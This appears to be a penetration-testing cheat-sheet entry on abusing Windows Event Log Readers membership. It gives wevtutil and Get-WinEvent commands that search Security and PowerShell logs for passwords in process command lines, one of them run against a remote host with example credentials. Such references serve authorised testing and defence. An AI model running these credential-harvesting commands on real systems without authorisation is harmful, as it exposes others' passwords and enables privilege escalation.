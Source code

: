 ---
description: |
  This guide demonstrates how to enumerate and abuse Event Log Readers group membership on Windows to access event logs and extract sensitive information. It covers confirming group membership, querying event logs for credentials, and using built-in tools to search for process command lines containing passwords. These steps are useful for privilege escalation and credential harvesting.

command: |
  net localgroup "Event Log Readers"

code: |
  # Query Security event log for process command lines (using wevtutil)
  wevtutil qe Security /rd:true /f:text | findstr "CommandLine"

  # Query Security event log with alternate credentials
  wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "CommandLine"

  # Search for process creation events (4688) with Get-WinEvent (PowerShell)
  Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 } | ForEach-Object {
    $_.Properties | Where-Object { $_.Value -like "*password*" }
  }

  # PowerShell Operational log may also contain credentials if script block logging is enabled:
  Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Select-Object -ExpandProperty Message | findstr /i "password"

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://www.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/token-privileges
  - https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
  - https://learn.microsoft.com/en-us/windows/security/threat-